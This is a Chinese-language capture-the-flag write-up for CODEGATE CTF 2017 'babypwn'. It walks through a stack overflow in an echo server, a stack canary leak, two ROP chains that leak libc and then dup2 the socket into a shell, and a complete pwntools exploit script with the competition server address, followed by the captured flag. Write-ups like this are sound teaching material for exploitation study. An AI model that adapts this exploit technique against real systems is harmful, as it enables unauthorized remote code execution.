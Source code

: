 ```yaml
---
title: '[CODEGATE CTF 2017] babypwn 50'
author: Naetw
tags:
  - pwn
  - CODEGATE CTF 2017
  - stack overflow
  - ROP
categories:
  - write-ups
date: 2017-02-11
layout: post
---
```

## Info  
> Category: pwn  
> Point: 500->50   
> Solver: Naetw @ BambooFox   
> 這是這次比賽唯一解出的一題 Orz，最近 BambooFox 打比賽的人越來越少了，自己戰力也不足@@ 分析太慢經驗也太少...

## Analyzing

32 bit ELF, Partial RELRO, 有 canary & NX, 沒有 PIE

如同他的名字是一個蠻簡單的題目。有一個明顯的 stack overflow 漏洞，唯一比較麻煩的部分是 socket 的部分，因為這部分還沒學過，也就不多說。只是需要把 `fork` 出來的 file descriptor 接好。

程式主要功能在 `0x08048A71` function 裡，前面都在做 socket 的建置，如果要在 local 端測試的話，會先用 `ncat -vc ./babypwn -kl 127.0.0.1 4000` 架起來，看了一下 src，我們會先 `nc localhost 4000`，之後程式就會跑起來，並且把主要功能開在 port 8181，所以一旦 `nc localhost 4000` 過，之後測試就用 8181 這個 port 來測試就行了。

連上去之後，程式行為很簡單：

```
===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu > 1
Input Your Message : AAAA
AAAA

===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu >
```

就是一個 echo server，第一直覺以為會是 format string，但是就是簡單的 echo 行為，不過在 echo 時，可以用 overflow 來 leak canary，後面才能利用 ROP 來做事。

**overflow**：

開 ida pro 來看
```
char buf[40]; // [sp+24h] [bp-34h]@1
...
socket_recv(buf, 100) // socket_recv == 0x08048907
```

這邊很明顯的 overflow，buf 的開頭距離 ebp 有 52，但是卻可以 input 100 bytes，因此這邊先算好跟 canary 的 offset，然後把 buf 塞成以下樣子：

```
0xff951f54:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f64:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f74:     0x41414141      0x41414141      0x4409b50a      0x00000000
```
上面的 `0x4409b50a` 就是 canary，不過因為 canary 的 first byte 都會是 '\x00'，因此這邊用 '\x0a' 也就是換行把它蓋著，才能接著把後面的值 dump 出來後，把 '\x0a' 換成 '\x00' => `0x4409b500` 就是這個 binary 的 canary。

這邊有了 canary 後就可以繞過 stack guard 的檢查，疊 ROP 來控制 eip 了，不過這邊還是沒辦法開 shell，因為 socket 的 file descriptor 跟 stdin & stdout 不同，所以我們會需要先用 `dup2` 來讓 stdin & stdout 跟 socket 的 file descriptor 接起來，之後就能開 interactive shell on socket server。

但是要用到 `dup2` 會需要 libc base，這邊我們先做第一次的 ROP，把 GOT entry 上的 libc function address leak 出來，之後利用 [libc database](http://libcdb.com) 來找出遠端 server 的 libc 版本，此外我們也要先把 file descriptor leak 出來。

因此這次 ROP 我們 payload 如下：

```python
socket_send = 0x080488B1
pop1 = 0x08048589
sigemptyset_got = 0x0804B048
echo_select = 0x08048A71
fd_address = 0x0804B1B8
rop1 = [socket_send, pop1, sigemptyset_got, 
        socket_send, echo_select, fd_address]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop1))
```

疊完之後，利用 choice 3 - exit 他會用 return 結束，就可以接到我們寫上去的 ROP gadgets 了。

這裡的 `socket_send` 用的是原本就寫好用來 echo input 的 function，`pop1` 則是利用 [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) 找到的一個 pop 一次後 ret 的 gadget，而 `echo_select` 則是上面提到的主要 function 的位址，因為 leak 玩東西之後我們要再做一次 ROP 來使用 `dup2` 以及開 shell。

這裡他會從 `sigemptyset_got` 開始 leak 很多 libc function，我拿前面四個到上面說的 libc database 查版本是可以查到的。

拿到 libc base 之後，直接在疊一次 ROP，這次 ROP 會用 `dup2` 把 stdin & stdout 跟 socket 的 fd 接起來，之後馬上開 shell：

```python
pop2 = 0x08048B84
sh = base + next(libc.search('sh\x00'))
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop2))
```

再次利用 choice 3 來 return 到 ROP gadgets 上。

Final Exploit：
```python
#!/usr/bin/env python
# -*- coding: utf8 -*-
from pwn import * # pip install pwntools
import sys

ip = '127.0.0.1'
port = 8181
reip = '110.10.212.130'
report = 8888

r = remote(ip, port)
#r = remote(reip, report)

# Default address & libc setting
echo_select = 0x08048a71
socket_send = 0x080488b1
sigemptyset_got = 0x0804b048
fd = 0x0804b1b8
pop1 = 0x08048589
pop2 = 0x08048b84
bss_buf = 0x0804bfc0
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('libc.so')

def echo(payload):
    r.recvuntil('>')
    r.sendline('1')
    r.recvuntil(':')
    r.send(payload)

# Leak canary
echo('A' * 40 + '\n')
raw_input('#')
r.recvline()
canary = r.recv(3)
canary = u32('\x00' + canary)
log.info(hex(canary))

# Leak libc function address and File Descripter
rop1 = [socket_send, pop1, sigemptyset_got, socket_send, echo_select, fd]
payload = 'A'*40 + p32(canary) +'A'*12 + ''.join(map(p32, rop1))
echo(payload + '\n')
r.recvuntil('>') 
r.sendline('3') # Use exit to ret to rop
r.recv()
sig = u32(r.recv(4))
listen = u32(r.recv(4))
atoi = u32(r.recv(4))
r.recv()
fd = ord(r.recv(1))
log.info('sigemptyset : ' + hex(sig) + '\n' + 
        'listen : ' + hex(listen) + '\n' +
        'atoi : ' + hex(atoi) + '\n' +
        'fd : ' + hex(fd))
base = atoi - libc.symbols['atoi']
dup2 = base + libc.symbols['dup2']
system = 0x08048620
read = base + libc.symbols['read']
log.info('base : ' + hex(base))
sh = base + next(libc.search('sh\x00'))


# Duplicate fd and stdout & stdin(in order to use shell)
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 + p32(canary) + 'A'*12 + ''.join(map(p32, rop2))
echo(payload)

# Use exit to ret to rop2
sleep(0.1)
r.sendline('3')

r.interactive()
```


FLAG{GoodJob~!Y0u@re_Very__G@@d!!!!!!^.^}

## Note

這次題目開了兩個 port，第一個 port 似乎太多人連...導致開 shell 不知道為啥開不起來，同樣的 payload 在第二個 port 十分順利＠＠